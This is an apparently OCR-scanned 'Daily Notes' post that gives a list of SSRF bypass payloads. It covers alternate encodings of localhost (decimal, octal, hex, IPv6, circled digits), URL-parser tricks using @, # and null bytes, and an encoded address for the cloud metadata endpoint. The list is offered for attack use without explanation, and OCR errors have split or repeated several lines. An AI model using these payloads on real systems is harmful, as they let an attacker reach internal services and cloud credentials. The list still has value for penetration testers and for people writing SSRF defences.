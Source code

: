 Daily Notes : Day - 48 
SSRF BYPASSES - part 2

Localhost bypass 

127.0.0.1:80
127.0.0.1:443
127.0.0.1:22
127.1:80
0
0.0.0.0:80
localhost:80
[::]:80/
[::]:25/ SMTP
[::]:3128/ Squid
[0000::1]:80/
[0:0:0:0:0:ffff:127.0.0.1]/thefile
①②⑦.⓪.⓪.⓪
127.127.127.127
127.0.1.3
127.0.0.0
2130706433/
017700000001
3232235521/
3232235777/
0x7f000001/
0xc0a80014/
{domain}
@127
.0.0.1
127.0.0.1#{domain}
{domain}.127.0.0.1
127.0.0.1/{domain}
127.0.0.1/?d={domain}
{domain}
@127
.0.0.1
127.0.0.1#{domain}
{domain}.127.0.0.1
127.0.0.1/{domain}
127.0.0.1/?d={domain}
{domain}
@localhost

localhost#{domain}
{domain}.localhost
localhost/{domain}
localhost/?d={domain}
127.0.0.1%00{domain}
127.0.0.1?{domain}
127.0.0.1///{domain}
127.0.0.1%00{domain}
127.0.0.1?{domain}
127.0.0.1///{domain}st:+11211aaa
st:00011211aaaa
1.1.1.1 &@2.2.2.2# 
@3
.3.3.3/
127.1.1.1:80\@
@127
.2.2.2:80/.
127.1.1.1:80#\
@127
.2.2.2:80/

Enclosed Alphanumeric Bypasses :

http:// 169.254.169.254/%0A
http:// %E2%93%AA%E2%93%A7%E2%93%90%E2%91%A8%EF%BD%A1%E2%93%AA%E2%93%A7%E2%93%95%E2%93%94%EF%BD%A1%E2%93%AA%E2%93%A7%E2%93%90%E2%91%A8%EF%BD%A1%E2%93%AA%E2%93%A7%E2%93%95%E2%93%94:80/
